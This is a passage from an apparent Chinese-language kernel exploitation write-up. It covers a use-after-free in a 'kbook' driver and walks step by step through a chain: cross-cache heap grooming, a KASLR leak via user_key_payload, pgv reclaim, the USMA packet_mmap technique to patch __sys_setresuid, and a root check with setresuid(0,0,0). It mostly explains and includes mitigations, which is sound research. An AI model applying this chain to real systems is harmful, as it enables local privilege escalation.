3. **利用灵活性**：可以结合不同类型的内核对象特性，实现更复杂的技术链
4. **检测难度**：跨缓存的操作模式更难被基于模式的检测机制发现

**内存交错状态的形式化描述**：
设$$M_{\text{kbook}}$$为已释放的kbook*jar内存区域集合，$$M*{\text{key}}$$为新分配的user_key_payload内存区域集合，则内存交错可以形式化描述为：

$$
\text{CrossCacheUAF} \iff \exists m_k \in M_{\text{kbook}}, m_u \in M_{\text{key}}: \text{Overlap}(m_k, m_u)
$$

其中$$\text{Overlap}(m_k, m_u)$$表示两个内存区域存在重叠。

**内存交错概率计算**：
设系统有$$T$$个可用的order 2页面，其中$$F$$个是之前释放的kbook_jar页面，分配$$N$$个user_key_payload对象，每个对象占用1/8个order 2页面（512字节/4096字节），则至少有一个user_key_payload对象与释放的kbook_jar页面重叠的概率为：

$$
P_{\text{overlap}} = 1 - \left(1 - \frac{F}{T}\right)^{N/8}
$$

通过适当选择$$F$$和$$N$$，可以使$$P_{\text{overlap}}$$接近1。

**技术意义**：
这个阶段展示了Cross-Cache UAF技术的核心实现原理。通过巧妙地利用内核内存管理机制，特别是伙伴系统的页面切割和重用机制，实现了不同缓存对象之间的内存交错。这种技术不仅增强了传统UAF的能力，还为后续的信息提取阶段创造了条件。成功实现Cross-Cache UAF意味着可以通过kbook驱动的漏洞访问user_key_payload结构，从而提取内核地址信息，为绕过KASLR等安全机制奠定基础。

#### 2-3-5. 阶段4：信息提取与计算

**技术目标**：
利用Cross-Cache UAF条件，通过悬垂指针访问user_key_payload结构，提取其中的内核函数指针等敏感信息。基于泄露的地址信息计算内核关键地址，绕过KASLR保护机制。

**信息提取流程图**：


```mermaid
flowchart TD
    Start[开始信息提取] --> Loop1[遍历kbooks数组: book_idx=0..31]
    Loop1 --> Loop2[遍历页面: page_idx=0..31]
    Loop2 --> CheckPtr{指针非空?}
    CheckPtr -- 是 --> ReadData[读取指针指向的数据]
    CheckPtr -- 否 --> NextPage[下一个页面]

    ReadData --> CheckSig{具有user_key_payload特征?}
    CheckSig -- 是 --> Extract[提取victim_key_id和函数指针]
    CheckSig -- 否 --> NextPage

    Extract --> CalcBase[计算内核基地址]
    CalcBase --> CalcTarget[计算目标函数地址]
    CalcTarget --> Return[返回提取结果]

    NextPage --> Loop2
    NextPage --> NextBook[下一个书籍]
    NextBook --> Loop1
```

**Cross-Cache UAF信息提取原理**：
通过阶段3建立的Cross-Cache UAF条件，kbook驱动的悬垂指针现在指向user_key_payload结构。由于这是跨缓存的内存访问，需要识别哪些指针现在指向有效的user_key_payload对象。通过特征识别算法，可以检测user_key_payload结构的特定模式，如特定的魔术值、结构大小字段或已知的函数指针。

**地址信息提取细节**：

1. **特征识别算法**：
   user_key_payload结构具有可识别的特征，包括：
    - 结构头部可能包含特定标志
    - 大小字段通常为512字节
    - 包含指向内核函数的指针，如`user_free_payload_rcu`
    - 可能包含密钥ID或其他标识信息

2. **函数指针提取**：
   从识别出的user_key_payload结构中提取关键的函数指针。这些指针与内核基址有固定的偏移关系，不受KASLR影响。例如，`user_free_payload_rcu`函数在内核镜像中的位置是固定的，通过泄露其运行时地址可以计算出内核加载的实际地址。

3. **密钥标识提取**：
   同时提取`victim_key_id`，这个信息在后续的内存控制阶段非常重要，用于识别和操作特定的目标对象。

**地址计算方法**：
基于泄露的函数指针地址，可以精确计算内核基址和其他关键函数的地址。计算过程如下：

设：

- $$A_{\text{leak}}$$：泄露的函数指针地址（如user_free_payload_rcu）
- $$O_{\text{known}}$$：该函数在未启用KASLR时的已知偏移
- $$A_{\text{base}}$$：内核基地址
- $$R$$：KASLR引入的随机偏移

则有：

$$
A_{\text{leak}} = A_{\text{base}} + O_{\text{known}}
$$

因此：

$$
A_{\text{base}} = A_{\text{leak}} - O_{\text{known}}
$$

随机偏移$$R$$为：

$$
R = A_{\text{base}} - A_{\text{known_base}}
$$

其中$$A_{\text{known_base}}$$是未启用KASLR时的已知基地址。

**目标函数地址计算**：
获得内核基地址后，可以计算任意函数的运行时地址：

$$
A_{\text{target}} = A_{\text{base}} + O_{\text{target}}
$$

其中$$O_{\text{target}}$$是目标函数在未启用KASLR时的偏移。

**Cross-Cache UAF在信息提取中的优势**：

1. **信息丰富性**：user_key_payload结构包含丰富的内核地址信息
2. **可靠性**：内核函数指针通常是稳定的，不易被修改
3. **精确性**：函数指针与内核基址有精确的偏移关系
4. **多样性**：可以提取多种类型的地址信息，用于交叉验证

**技术挑战与解决方案**：

1. **结构识别准确性**：
    - 挑战：需要准确识别user_key_payload结构
    - 解决方案：使用多重特征验证，提高识别准确性

2. **数据完整性**：
    - 挑战：内存可能被部分覆盖或损坏
    - 解决方案：实现健壮的解析算法，验证数据一致性

3. **并发干扰**：
    - 挑战：其他进程可能修改目标内存
    - 解决方案：快速完成信息提取，减少时间窗口

4. **系统差异**：
    - 挑战：不同内核版本可能有结构差异
    - 解决方案：支持多种内核版本的特征识别

**技术意义**：
这个阶段展示了如何通过Cross-Cache UAF技术提取敏感的内核信息。成功的信息提取是后续所有高级操作的基础，包括绕过KASLR、定位关键函数、控制内核执行流等。Cross-Cache UAF在此阶段发挥了关键作用，它使得通过kbook驱动的漏洞可以访问user_key_payload这样包含丰富信息的内核对象，为完整的技术验证链提供了必要的信息基础。

#### 2-3-6. 阶段5：内存重新分配控制

**技术目标**：
释放被识别的目标`user_key_payload`对象，并立即堆喷`pgv`结构体数组，使其重新占用该内存。通过UAF原语，可以修改这个`pgv.buffer`指针的值，获得对关键数据结构的控制权。

**实现细节**：

1. **目标对象释放**：
   释放之前在阶段4中识别出的`victim_key_id`对应的`user_key_payload`对象。这个操作会使对应的内存返回kmalloc-512缓存，处于可重新分配的状态。释放时机需要精确控制，以确保内存能够被预期的对象重用。

2. **内存重用策略**：
   在释放目标对象后，立即开始`pgv`结构体数组的堆喷操作。`pgv`是内核网络子系统中的一个数据结构，具有简单的结构，便于控制。通过分配足够数量的`pgv`结构体数组，可以确保其中一个占据刚刚释放的内存区域。

3. **结构体堆喷技术**：
   分配96个`pgv`结构体数组，这个数量经过精心计算，能够以高概率覆盖目标内存区域。堆喷操作需要快速连续执行，以减少其他内核代码占用目标内存的机会。通过控制堆喷的时机和顺序，可以进一步优化内存重用的概率。

4. **指针控制机制**：
   一旦`pgv`结构体数组占用了目标内存，通过UAF原语可以修改这个结构体中的字段。`pgv`结构体的关键字段是`buffer`指针，控制这个指针意味着可以重定向后续通过此结构体进行的内存操作。

**内存状态转移**：
这个阶段涉及内存状态的多次转移：

```
初始状态: user_key_payload对象占用内存
释放操作: 对象释放，内存返回缓存
重新分配: pgv结构体数组分配，占用同一内存区域
控制达成: 通过UAF修改pgv结构体字段
```

**pgv结构体定义**：
`pgv`结构体在内核中定义相对简单，主要包含一个缓冲区指针：

```c
struct pgv {
    char *buffer;  // 8字节，指向数据缓冲区的指针
    // 总大小: 8字节
};
```

这个简单的结构使得控制逻辑相对直接，只需要修改`buffer`指针的值即可改变后续的内存访问目标。

**控制流程**：

1. **状态保存**：在修改之前，保存原始`pgv.buffer`指针的值，以便后续恢复
2. **指针修改**：将`buffer`指针修改为目标内存地址
3. **验证修改**：验证指针修改是否成功
4. **访问测试**：测试通过修改后的指针进行内存访问

**技术挑战与解决方案**：

1. **内存重用竞争**：
    - 挑战：其他内核代码可能竞争同一内存区域
    - 解决方案：精确控制时序，快速完成堆喷操作

2. **并发访问**：
    - 挑战：其他进程可能同时访问目标内存
    - 解决方案：使用同步机制减少干扰

3. **系统稳定性**：
    - 挑战：内存操作可能影响系统稳定性
    - 解决方案：实现优雅的错误处理和恢复机制

**堆喷优化策略**：

1. **顺序控制**：控制分配顺序，优化内存布局
2. **数量优化**：根据系统状态动态调整堆喷数量
3. **时机选择**：在系统相对空闲时执行堆喷操作

**技术意义**：
这个阶段展示了如何通过精细的内存操作控制关键的数据结构。通过释放特定对象并立即用可控对象重新占用内存，实现了对内核数据结构的控制。这种技术在内核安全分析中非常重要，因为它允许将原始漏洞的影响转移到可控的数据结构上，为后续更复杂的操作创造条件。控制`pgv.buffer`指针是一个重要的里程碑，它为建立用户空间到内核空间的直接访问通道奠定了基础。

#### 2-3-7. 阶段6：高级内存技术应用

**技术目标**：
在控制`pgv`结构体的基础上，应用基于内存映射的高级技术，建立从用户空间到内核空间的非标准访问通道。这个阶段的目标是通过合法系统调用接口，实现对内核内存的特殊访问能力。

**实现步骤**：


```mermaid
flowchart TD
    Start[开始] --> Step1[保存原始pgv.buffer指针]
    Step1 --> Step2[重定向buffer指向目标内核函数页面]
    Step2 --> Step3[通过packet_mmap建立内存映射]
    Step3 --> Step4[在用户空间通过映射修改目标指令]
    Step4 --> Step5[解除内存映射]
    Step5 --> Step6[恢复原始buffer指针]
    Step6 --> End[结束]
```

1. **指针保存与重定向**：
   首先保存原始`pgv.buffer`指针的值，这是重要的恢复信息。然后将这个指针重定向到目标内核内存区域，例如`__sys_setresuid`函数所在的代码页。这个重定向操作是通过UAF原语修改`pgv.buffer`字段实现的。

2. **内存映射建立**：
   通过合法的系统调用接口（如`mmap`），将`pgv.buffer`指向的物理页面映射到用户空间。`packet_mmap`是Linux内核中packet socket子系统提供的内部函数，用于将内核网络缓冲区映射到用户空间。这个映射操作会继承原始页面的访问权限属性。

3. **内存内容修改**：
   通过用户空间的映射直接修改页面中的特定指令。以`__sys_setresuid`函数为例，目标是修改其中的权限检查逻辑。通过将条件跳转指令替换为无操作指令（NOP），可以绕过权限检查。这种修改需要精确的指令级操作，确保不破坏函数的基本结构和功能。

4. **权限恢复与清理**：
   修改完成后，立即清理相关的映射和状态，包括恢复`pgv.buffer`指针的原始值，解除内存映射等操作。

**技术优势**：
这种基于内存映射的技术具有多个优势：

1. **直接访问**：建立了从用户空间到内核空间的直接访问通道，避免了传统的数据拷贝开销
2. **精确控制**：可以精确控制访问的目标内存区域，实现细粒度的内存操作
3. **灵活性**：支持对多种类型内存区域的访问，包括代码页、数据页等
4. **兼容性**：基于标准内核接口实现，具有良好的系统兼容性
5. **隐蔽性**：通过合法系统调用路径实现，减少异常行为检测的可能性

**技术挑战与解决方案**：

1. **权限限制**：
    - 挑战：目标页面可能具有严格的访问限制
    - 解决方案：通过合法接口申请适当的权限

2. **指令对齐**：
    - 挑战：指令修改必须精确到字节级
    - 解决方案：使用反汇编技术确保指令边界

3. **并发访问**：
    - 挑战：其他CPU可能同时访问目标代码
    - 解决方案：使用适当的同步机制

4. **完整性检查**：
    - 挑战：内核可能具有代码完整性检查
    - 解决方案：了解并绕过相关的检查机制

5. **系统差异**：
    - 挑战：不同内核版本可能有不同的实现
    - 解决方案：实现版本自适应技术

**指令修改的精确性要求**：
指令修改需要极高的精确性，包括：

- 指令长度匹配：新指令长度必须与原始指令完全相同
- 控制流保持：修改后控制流必须正确转移
- 寄存器保护：不能破坏重要的寄存器状态
- 栈平衡：保持栈指针的正确性
- 副作用避免：避免引入意外的副作用

**技术意义**：
这个阶段展示了如何通过合法系统调用接口实现高级内存操作。USMA技术代表了内核安全分析中的一种高级技术，它通过结合多个合法系统功能实现了对内核内存的特殊访问。这种技术不仅对安全分析有重要意义，也对理解内核内存管理机制有重要价值。成功应用这种技术需要深入理解内核的多个子系统，包括内存管理、系统调用、权限控制等，是多方面知识的综合应用。

#### 2-3-8. 阶段7：权限验证

**技术目标**：
验证高级内存技术应用的效果，确认通过之前阶段建立的技术通道是否能够成功修改内核行为。这个阶段是技术验证的最终检验，通过实际的系统调用来测试修改是否生效。

**实现细节**：

1. **状态恢复操作**：
   在测试之前，首先恢复系统状态，确保测试环境的一致性。这包括：
    - 恢复`pgv.buffer`指针的原始值
    - 清理所有临时的内存映射
    - 释放所有分配的资源
    - 重置相关的状态变量

    状态恢复是重要的安全措施，避免留下不完整的修改影响系统稳定性。

2. **功能触发测试**：
   调用被修改的内核函数进行测试。以`setresuid(0,0,0)`为例，这个系统调用会触发`__sys_setresuid`函数的执行。如果之前的指令修改成功，权限检查逻辑应该被绕过，函数应该成功执行并返回0。如果修改不成功或者不完整，函数可能会返回错误或者触发系统异常。

3. **结果验证分析**：
   对测试结果进行全面的验证分析，包括：
    - 检查系统调用的返回值
    - 验证进程的权限状态变化
    - 监控系统的整体稳定性

    通过多个维度的验证，可以全面评估技术效果。

**验证逻辑**：
验证逻辑可以通过以下代码示例展示：

```c
// 尝试设置root权限
int result = setresuid(0, 0, 0);
if (result == 0) {
    // 系统调用成功执行
    printf("System call executed successfully\n");

    // 验证当前权限状态
    uid_t current_euid = geteuid();
    if (current_euid == 0) {
        printf("Current effective UID: 0 (root)\n");
        printf("Permission verification successful\n");
    } else {
        printf("Current effective UID: %d\n", current_euid);
        printf("Permission verification failed\n");
    }
} else {
    // 系统调用执行失败
    printf("System call failed: %s\n", strerror(errno));
    printf("Permission verification failed\n");
}
```

**验证维度**：
全面的验证应该包含多个维度：

1. **功能正确性**：被修改的函数是否按照预期工作
2. **系统稳定性**：修改是否影响系统的整体稳定性
3. **权限一致性**：权限状态是否与实际操作一致
4. **副作用评估**：修改是否产生了意外的副作用
5. **持久性验证**：修改的效果是否在多次调用中保持一致

**技术意义**：
这个阶段是技术验证的最终检验，它验证了前面所有阶段的技术效果。通过实际的系统调用测试，可以确认技术链的完整性和有效性。成功的验证不仅证明了初始漏洞的严重性，也展示了复杂技术链的可行性。这个阶段的工作对于理解内核安全机制、评估系统安全性、改进安全设计都有重要意义。

### 2-4. 关键技术原理深度分析

#### 2-4-1. Slab分配器工作机制

Linux内核的Slab分配器为不同大小的对象维护多个缓存。kbook驱动创建的`kbook_jar`缓存具有独立且特殊的属性，其行为模式对技术验证有重要影响。

**缓存结构特性**：

<pre>
kbook_jar缓存结构:
┌─────────────────────────────────────────────────────────────┐
│                    slab缓存描述符                            │
├─────────────────────────────────────────────────────────────┤
│ 缓存名称: "kbook_jar"                                        │
│ 对象大小: 1024字节                                           │
│ 对象对齐: 硬件缓存行对齐                                      │
│ 缓存标志: SLAB_NO_MERGE | SLAB_PANIC | SLAB_ACCOUNT          │
│ 每slab对象数: 4个 (4096字节/1024字节)                         │
└─────────────────────────────────────────────────────────────┘
</pre>

**关键标志解释**：

- `SLAB_NO_MERGE`：防止此缓存与其他缓存合并，确保内存隔离
- `SLAB_PANIC`：分配失败时触发panic，简化错误处理但降低系统韧性
- `SLAB_ACCOUNT`：计入cgroup内存统计，支持容器化环境

**内存分配状态机**：
Slab分配器的行为可以通过状态机模型描述：


```mermaid
stateDiagram-v2
    [*] --> 空闲状态
    空闲状态 --> 分配对象: kmem_cache_alloc
    分配对象 --> 使用中: 对象被使用
    使用中 --> 释放对象: kmem_cache_free

    释放对象 --> 部分空闲: slab有部分空闲对象
    部分空闲 --> 分配对象: 再次分配

    部分空闲 --> 完全空闲: 所有对象都释放
    完全空闲 --> 释放slab: 内存压力时

    释放slab --> 空闲状态: slab返回页分配器

    空闲状态 --> 创建新slab: 无空闲对象
    创建新slab --> 分配对象: 从新slab分配
```

#### 2-4-2. 伙伴系统交互机制

当Slab缓存需要新内存时，会与伙伴系统进行交互获取连续物理页。这种交互是技术验证中内存交错现象的基础。

**伙伴系统分配模式**：
伙伴系统以2的幂次为单位管理物理内存。对于`kbook_jar`缓存，每次获取一个order 2页面（4KB），然后分割为4个1024字节的对象。

**物理页面布局**：

<pre>
order 2页面 (4KB) 内部布局:
┌──────────────────────────────────────────────────────────────────────────────────────┐
│ 对象0 (0x000-0x3FF) │ 对象1 (0x400-0x7FF) │ 对象2 (0x800-0xBFF) │ 对象3 (0xC00-0xFFF)  │
└──────────────────────────────────────────────────────────────────────────────────────┘
</pre>

**内存重用机制**：
当Slab对象被释放后，对应的内存页可能经历以下生命周期：

1. 保持在Slab缓存的空闲列表中
2. 在一定条件下返回给伙伴系统
3. 被其他Slab缓存重新使用
4. 被不同大小的对象占用

这种重用机制是内存交错现象的技术基础，也是UAF漏洞能够读取到不同类型对象数据的关键原因。

#### 2-4-3. KASLR保护机制分析

Kernel Address Space Layout Randomization (KASLR) 是现代操作系统的重要安全机制，通过随机化内核代码和数据的地址来增加利用难度。

**KASLR实现原理**：
KASLR在内核启动时选择一个随机偏移，将整个内核镜像移动到新的地址。这个偏移通常是页面大小（4KB）的倍数，并且在一定范围内随机选择。

**随机化范围特性**：

- 64位系统：通常有$$2^{28}$$种可能的偏移
- 随机偏移范围：0x0到0xFFFFFFF（256MB对齐）
- 每次启动重新选择，增加不确定性
- 不同内核组件可能有不同的随机化策略

**KASLR的保护效果**：
KASLR通过增加不确定性来提高利用难度，进而无法预先知道关键函数和数据的准确地址。这对于防御基于固定地址的利用非常有效。

#### 2-4-4. 地址泄露技术原理

通过UAF漏洞读取内核数据结构中的敏感信息，是绕过KASLR保护的常见技术。这种技术利用内核对象中必然包含的地址信息来推断内核布局。


```mermaid
graph TD
    A[发现UAF漏洞] --> B[构造内存交错布局]
    B --> C[通过UAF读取内核对象]
    C --> D[识别并提取函数指针等地址信息]
    D --> E[计算内核基地址]
    E --> F[绕过KASLR保护]
```

**可泄露地址类型**：
内核数据结构中通常包含以下类型的地址信息：

1. **函数指针**：如`user_free_payload_rcu`，这是最常见的目标
2. **虚函数表指针**：类似C++对象或具有类似特性的内核对象
3. **全局变量指针**：指向全局数据结构的指针
4. **链表指针**：内核链表中指向前后节点的指针
5. **引用计数指针**：指向引用计数结构的指针

**地址泄露的可靠性**：
不是所有的地址信息都适合用于KASLR绕过。理想的泄露地址应该具有以下特性：

- 与内核基地址有固定偏移
- 在不同运行环境中保持稳定
- 容易识别和提取
- 包含足够的信息量

**地址计算流程**：
地址计算的基本流程包括四个步骤：

1. **信息提取**：通过UAF读取包含地址信息的内核对象
2. **特征识别**：识别出有价值的地址信息
3. **偏移计算**：基于泄露地址和已知偏移计算内核基地址
4. **目标定位**：基于内核基地址计算目标函数地址

#### 2-4-5. Cross-Cache UAF技术原理

**Cross-Cache UAF核心机制**：
Cross-Cache UAF是一种高级的内核漏洞利用技术，其核心在于通过页级堆风水操作，将属于不同缓存的内存对象转换为重叠的缓存。与传统的UAF技术不同，Cross-Cache UAF允许通过一个缓存类型的漏洞访问另一个完全不同缓存类型的对象，显著扩展了UAF的影响范围和技术可能性。

**缓存隔离与页面重用机制**：
Linux内核的内存管理采用多层架构，Slab分配器负责管理特定大小的对象缓存，而伙伴系统负责管理物理页面。不同大小的对象通常分配在不同的Slab缓存中，这提供了天然的隔离性。然而，这种隔离在页面级别可以被打破：


```mermaid
graph TD
    A[伙伴系统: Order 2页面池] --> B[Slab缓存A: kmalloc-1k]
    A --> C[Slab缓存B: kmalloc-512]
    B --> D[对象A1: 1024字节]
    B --> E[对象A2: 1024字节]
    C --> F[对象B1: 512字节]
    C --> G[对象B2: 512字节]

    style B fill:#e1f5fe
    style C fill:#e8f5e8
```

**页面切割与内存重用流程**：
当kmalloc-512缓存需要新的内存时，如果其专用的order 1页面池耗尽，它会从order 2页面池中切割内存：

1. **内存分配路径**：

    ```
    kmalloc(512) → kmalloc-512缓存 → 无空闲order 1页面 → 从order 2页面切割 → 返回512字节对象
    ```

2. **内存重用条件**：
    - order 1页面完全耗尽
    - 有可用的order 2页面（可能包含已释放的kbook_jar对象）
    - 新分配的512字节对象可能位于之前1024字节对象占用的物理页面

3. **交错概率模型**：
   设系统有P个可用的order 2页面，其中F个包含已释放的kbook_jar对象。当分配N个512字节对象时，每个对象占用1/8个order 2页面，至少一个对象与已释放kbook_jar页面重叠的概率为：
    $$
    P_{\text{overlap}} = 1 - \left(1 - \frac{F}{P}\right)^{N/8}
    $$

**内存状态的形式化描述**：

Cross-Cache UAF的内存状态可以通过以下精确的形式化模型描述：

设：

- $$C_A$$：缓存A（kbook_jar，1024字节）
- $$C_B$$：缓存B（user_key_payload，512字节）
- $$P_i$$：物理页面i（4096字节）
- $$O_{A,j}$$：缓存A中的对象j
- $$O_{B,k}$$：缓存B中的对象k
- $$\mathcal{A}_{A,j}$$：对象$$O_{A,j}$$的物理地址
- $$\mathcal{A}_{B,k}$$：对象$$O_{B,k}$$的物理地址
- $$\mathcal{S}_{A,j}$$：对象$$O_{A,j}$$的状态
- $$\mathcal{S}_{B,k}$$：对象$$O_{B,k}$$的状态

对象的状态定义为：$$\mathcal{S} \in \{\text{ALLOCATED}, \text{FREED}, \text{INVALID}\}$$

**Cross-Cache UAF条件的形式化描述**：

存在对象$$O_{A,j} \in C_A$$和$$O_{B,k} \in C_B$$，使得同时满足以下条件：

1. **物理页面共享**：两个对象位于同一个物理页面内
   $$\lfloor \frac{\mathcal{A}_{A,j}}{4096} \rfloor = \lfloor \frac{\mathcal{A}_{B,k}}{4096} \rfloor$$

2. **地址空间重叠**：两个对象的内存地址区间存在交集
   $$[\mathcal{A}_{A,j}, \mathcal{A}_{A,j} + 1024) \cap [\mathcal{A}_{B,k}, \mathcal{A}_{B,k} + 512) \neq \emptyset$$

3. **内存状态对立**：对象A处于已释放状态，对象B处于已分配状态
   $$\mathcal{S}_{A,j} = \text{FREED} \land \mathcal{S}_{B,k} = \text{ALLOCATED}$$

**完全包含情况的数学描述**：

在技术验证中最理想的情况是$$O_{B,k}$$完全位于$$O_{A,j}$$的内存区域内：

设$$\mathcal{A}_{A,j} = a_1$$，$$\mathcal{A}_{B,k} = a_2$$，则完全包含条件为：

$$
a_1 \leq a_2 \land a_2 + 512 \leq a_1 + 1024
$$

**内存状态转移的形式化模型**：

定义内存操作集合$$Op = \{alloc_A, free_A, alloc_B, free_B, access_A\}$$，其中：

- $$alloc_A$$：在缓存A中分配对象
- $$free_A$$：释放缓存A中的对象（存在缺陷，不清空指针）
- $$alloc_B$$：在缓存B中分配对象
- $$free_B$$：释放缓存B中的对象
- $$access_A$$：通过悬垂指针访问缓存A的对象

**内存状态转移关系**：

1. 分配操作：$$alloc_A(O_{A,j}) \Rightarrow \mathcal{S}_{A,j} = \text{ALLOCATED}$$
2. 缺陷释放操作：$$free_A(O_{A,j}) \Rightarrow \mathcal{S}_{A,j} = \text{FREED}$$（但指针未清空）
3. 重新分配操作：$$alloc_B(O_{B,k}) \Rightarrow \mathcal{S}_{B,k} = \text{ALLOCATED}$$
4. Cross-Cache UAF触发：当满足上述三个条件时，$$access_A(O_{A,j})$$实际上访问$$O_{B,k}$$

**技术实现关键点**：

1. **页面级堆风水**：通过控制大量分配和释放操作，影响物理页面的分配模式
2. **时机精确控制**：精确控制分配、释放和重新分配的时机
3. **特征识别算法**：准确识别跨缓存对象的结构特征
4. **错误处理机制**：处理内存布局不确定性带来的各种异常情况

**技术优势**：

1. **跨越缓存边界**：传统UAF仅限于同一缓存类型，Cross-Cache UAF可以跨越不同大小的缓存
2. **信息多样性**：可以访问不同类型的内核对象，提取更丰富的信息
3. **利用灵活性**：结合不同类型对象的特性，实现更复杂的技术链
4. **检测规避**：跨缓存的操作模式更难被基于模式的检测机制发现
5. **成功率提升**：通过大量分配和释放，可以显著提高内存交错的概率

**防御与缓解措施**：

1. **指针清理**：释放内存后立即清空所有相关指针
2. **缓存隔离强化**：增强不同缓存之间的隔离性
3. **内存布局随机化**：增加内存分配的不确定性
4. **完整性检查**：对关键数据结构进行完整性验证
5. **行为监控**：监控异常的内存访问模式

**技术意义**：

Cross-Cache UAF代表了内核漏洞利用技术的重要发展方向。它突破了传统UAF的技术限制，展示了即使有缓存隔离机制，通过精巧的内存操作仍然可以实现跨缓存的内存访问。这种技术不仅对安全研究人员有重要价值，对系统开发者和安全工程师也有重要启示，强调了在设计和实现内存管理机制时需要全面考虑各种边界情况。

### 2-5. 技术总结

本章详细分析了kbook驱动程序中的Use-After-Free漏洞及其完整的技术验证链，漏洞本质在于`DELETE_PAGE`操作中释放内存后未同步清空管理指针，导致悬垂指针的形成。这个看似微小的设计缺陷在内核复杂的内存管理机制中可以被放大，形成一条完整的技术验证链，核心在于应用了Cross-Cache UAF技术，通过页级堆风水操作将属于不同缓存（kbook_jar的kmalloc-1k/order 2和user_key_payload的kmalloc-512/order 1）的内存对象转换为重叠的缓存。完整的技术验证流程包含七个紧密衔接的阶段：内存预热与布局建立可控的内存环境；UAF条件创建利用设计缺陷创建悬垂指针；Cross-Cache UAF实现跨缓存的内存交错；信息提取与地址计算泄露内核地址并绕过KASLR；内存重新分配控制建立对关键数据结构的控制；高级内存技术应用实现内核代码的直接修改；权限验证确认技术效果并确保系统稳定性。这个技术验证实例不仅展示了现代内核安全技术的深度和广度，包括内存管理机制、安全机制绕过、系统调用利用、时序控制技术和错误处理机制，还具有重要的工程实践价值，为内核漏洞分析、技术验证框架构建、防御设计改进和教育研究提供了系统性的参考。通过Cross-Cache UAF技术的成功应用，证明了即使有层层防护和隔离机制，通过精巧的技术组合仍然可以实现完整的技术验证，强调了在系统设计和实现中需要全面考虑安全因素，采用深度防御策略，持续改进安全机制，以应对日益复杂的安全挑战。

## 3. USMA技术深度分析

### 3-1. 技术定义与背景

**[USMA（User-Space-Mapping-Attack）](https://vul.360.net/archives/391)** 是一种基于Linux内核packet socket模块内存映射机制的创新技术。该技术利用内核网络子系统中的共享内存环形缓冲区机制，通过控制关键数据结构指针，将指定的内核内存区域直接映射到用户空间地址空间，从而实现用户态进程对内核内存的直接访问与修改。

**技术发展背景**：

- 传统内核漏洞利用依赖于复杂的控制流劫持技术，如ROP、JOP等
- 现代防护机制（CFI、KASLR、SMEP/SMAP）显著增加了传统利用难度
- Packet Socket作为网络性能优化机制，提供了内核与用户空间高效数据交换通道
- 该机制的某些设计特性为绕过现代防护提供了新的可能性

### 3-2. 核心原理与工作流程

**核心原理**：

USMA技术的核心在于利用packet socket模块中的共享内存环形缓冲区机制。该机制原本设计用于高效传输网络数据包，减少内核与用户空间之间的数据拷贝开销。通过特定的内存操作漏洞，可以控制环形缓冲区中的关键指针，将其重定向到任意内核内存区域，进而通过标准的mmap系统调用将目标内核页面映射到用户空间。


```mermaid
mindmap
  root(USMA技术核心原理)
    技术基础
      Packet Socket内存映射机制
      环形缓冲区共享内存
      内核页面映射到用户空间
    关键技术
      指针控制与重定向
      利用UAF等内存漏洞
      控制pg_vec.buffer指针
    实现路径
      合法系统调用路径
      mmap触发packet_mmap
      vm_insert_page建立映射
    技术优势
      绕过控制流完整性检查
      利用合法内核接口
      隐蔽性高
```

**工作流程概述**：

1. **环境初始化**：创建packet socket，配置环形缓冲区参数
2. **内存控制**：利用内存漏洞控制环形缓冲区中的关键指针
3. **指针重定向**：将缓冲区指针指向目标内核内存区域
4. **映射建立**：通过mmap系统调用触发内核映射机制
5. **内存访问**：在用户空间直接访问和修改内核内存
6. **功能验证**：验证修改效果，实现权限提升或其他目标

### 3-3. Packet Socket内存映射机制

#### 3-3-1. 内存分配机制分析

**底层内存分配函数**：

`__get_free_pages`函数是内核中用于分配连续物理页面的核心函数，在packet socket环形缓冲区的内存分配过程中起到关键作用：

```c
/*
 * 通用辅助函数。由于返回的地址无法表示高端内存页面，因此切勿与__GFP_HIGHMEM一起使用。
 * 如果需要访问高端内存，请使用alloc_pages然后进行kmap映射。
 */
unsigned long __get_free_pages(gfp_t gfp_mask, unsigned int order)
{
    struct page *page;                                  // 页面结构指针

    // 分配物理页面，清除__GFP_HIGHMEM标志以确保返回低端内存地址
    page = alloc_pages(gfp_mask & ~__GFP_HIGHMEM, order);
    if (!page)                                          // 检查页面分配是否成功
        return 0;                                       // 分配失败，返回0
    return (unsigned long) page_address(page);          // 返回页面的虚拟地址
}
EXPORT_SYMBOL(__get_free_pages);                        // 导出符号供其他模块使用
```

**函数功能说明**：

1. **参数说明**：
    - `gfp_mask`：分配标志，控制分配行为（如GFP_KERNEL表示内核内存分配）
    - `order`：分配阶数，决定分配页面数量（$$2^\text{order}$$个页面）

2. **工作原理**：
    - 通过`alloc_pages`函数分配物理页面
    - 清除`__GFP_HIGHMEM`标志，确保返回低端内存地址
    - 使用`page_address`将页面结构转换为虚拟地址
    - 返回可用于直接访问的虚拟地址

3. **使用限制**：
    - 不能用于分配高端内存（highmem）页面
    - 如果需要高端内存，应使用`alloc_pages`配合`kmap`函数
    - 分配的页面是连续的物理内存区域

**在packet socket中的应用**：

在packet socket的环形缓冲区分配过程中，`alloc_one_pg_vec_page`函数会调用`__get_free_pages`来分配物理页面：

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
    char *buffer;                                       // 缓冲区指针
    gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |         // 分配标志：内核内存、复合页
                      __GFP_ZERO | __GFP_NOWARN |       // 清零、不警告
                      __GFP_NORETRY;                    // 不重试

    // 首先尝试通过__get_free_pages分配连续物理页面
    buffer = (char *) __get_free_pages(gfp_flags, order);
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    // __get_free_pages失败，回退到vmalloc
    buffer = vzalloc(array_size((1 << order), PAGE_SIZE)); // 分配虚拟连续内存
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    // vmalloc失败，尝试允许回收内存
    gfp_flags &= ~__GFP_NORETRY;                        // 允许重试
    buffer = (char *) __get_free_pages(gfp_flags, order); // 再次尝试分配
    if (buffer)                                         // 检查分配是否成功
        return buffer;                                  // 成功，返回缓冲区地址

    return NULL;                                        // 完全失败，返回NULL
}
```

#### 3-3-2. 核心代码分析

**setsockopt系统调用处理**：

当用户空间通过setsockopt设置环形缓冲区参数时，内核执行packet_setsockopt函数：

```c
static int packet_setsockopt(struct socket *sock, int level, int optname,
                             sockptr_t optval, unsigned int optlen)
{
    struct sock *sk = sock->sk;                          // 获取socket对应的sock结构
    struct packet_sock *po = pkt_sk(sk);                 // 转换为packet_sock结构
    int ret;                                             // 返回值变量

    if (level != SOL_PACKET)                             // 检查选项层级是否为packet层级
        return -ENOPROTOOPT;                             // 非packet层级，返回协议不支持错误

    switch (optname) {                                   // 根据选项名称进行分发处理
